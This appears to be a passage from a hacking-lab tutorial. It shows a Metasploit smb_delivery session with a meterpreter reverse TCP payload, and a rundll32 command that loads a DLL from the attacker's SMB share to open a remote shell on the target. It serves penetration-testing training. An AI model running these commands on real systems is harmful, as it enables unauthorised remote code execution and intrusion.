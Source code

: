 ```shell-session
msf6 exploit(windows/smb/smb_delivery) > show options 

Module options (exploit/windows/smb/smb_delivery):
   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   FILE_NAME    test.dll         no        DLL file name
   FOLDER_NAME                   no        Folder name to share (Default none)
   SHARE                         no        Share (Default Random)
   SRVHOST      10.10.14.3       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT      445              yes       The local port to listen on.
Payload options (windows/meterpreter/reverse_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
Exploit target:
   Id  Name
   --  ----
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   DLL
   1   PSH


msf6 exploit(windows/smb/smb_delivery) > set target 0

target => 0


msf6 exploit(windows/smb/smb_delivery) > exploit 
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Started service listener on 10.10.14.3:445 
[*] Server started.
[*] Run the following command on the target machine:
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

### Rundll Command on Target Host
```cmd-session
C:\htb> rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```
